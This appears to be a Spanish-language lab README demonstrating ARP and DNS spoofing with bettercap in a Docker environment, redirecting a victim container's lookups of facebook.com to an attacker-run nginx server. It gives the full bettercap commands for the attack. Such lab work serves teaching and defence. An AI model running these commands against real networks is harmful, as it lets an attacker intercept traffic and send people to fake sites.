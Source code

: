 Para hacer el Proof of Concept del DNS Spoofing, creamos un entorno Docker con 3 máquinas:  

- Atacante: un kali linux con la herramienta bettercap, con el que haremos el ataque. Además, cuenta con un servidor nginx que es al que redigiremos a la víctima.  
- Cliente: la víctima de este ataque. Cuenta con herramientas como dig y un navegador web, lynx, para comprobar que el ataque ha funcionado.  
- Gateway: Simula el router de la red. Las otras dos máquinas la tienen como ruta default y simplemente redirige todo el tráfico que le llega.  

Levantamos el entorno con `sudo docker-compose up –d –build`  y comenzamos el ataque: 

- En una terminal abrimos un bash en el atacante con `sudo docker exec –it atacante bash`. En otra, nos conectamos al cliente con `sudo docker exec –it atacante bash`.   

- Comenzamos el ataque: en la máquina atacante ejecutamos `bettercap -iface eth0`. Seguidamente, ejecutamos `net.probe on` para detectar el resto de dispositivos en la red.  

![](images/Pasted%20image%2020241112120351.png)

- Para visualizar estos dispositivos, ejecutamos `net.show`.
 
![](images/Pasted%20image%2020241112120412.png)
- Ahora haremos un arp spoofing. Para ello, ejecutamos:
```bash
set arp.spoof.targets 172.21.0.2, 172.21.0.100
arp.spoof on
```

![](images/Pasted%20image%2020241112120532.png)
- Como vemos después de ejecutar algo que pase por el router, como un ping 8.8.8.8, el cliente tiene la direccion MAC del atacante como si fuera la del gateway en su caché ARP.

![](images/Pasted%20image%2020241112120644.png)

- Para efectuar el dns spoofing, ahora escribimos los comandos
```bash
set dns.spoof.domains facebook.com
set dns.spoof.address 172.21.0.101
dns.spoof on
```

![](images/Pasted%20image%2020241112120736.png)

- Al hacer dig facebook.com, el cliente encontrará la IP del atacante. 

![](images/Pasted%20image%2020241112120819.png)

- Y al usar el navegador, `lynx facebook.com`, verá la página web del atacante.  

![](images/Pasted%20image%2020241112120853.png)

- Para ambas situaciones, en intrerfaz de bettercap veremos lo siguiente: 

![](images/Pasted%20image%2020241112120921.png)

 

 
